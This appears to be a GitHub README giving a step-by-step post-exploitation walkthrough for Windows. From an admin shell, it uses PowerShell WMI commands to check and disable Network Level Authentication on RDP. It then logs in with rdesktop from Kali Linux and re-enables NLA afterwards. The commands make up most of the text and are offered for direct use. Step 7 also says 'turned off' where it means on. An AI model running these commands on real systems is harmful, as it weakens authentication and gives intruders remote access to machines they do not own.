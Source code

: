 ## Disclosures of Remote Procedure Call
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
  Codes :-
  
    `$ComputerName = " NAME SEEN IN SYSINFO "`
  
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    If "1" is returned, it means NLA is on.
    If "0" is returned, it means NLA is off.
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      Image is seen below:
      ![alt text]
  
    Now It will be turned off.
    You can use Number 4 command to check if it worked. 
  
      Image is seen below:
      ![alt text]
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    You can use the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
  
    Image is seen below:
    ![alt text]
  
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Now It will be turned off.
    You can use Number 4 command to check if it worked.
  
    Image is seen below:
    ![alt text]

  
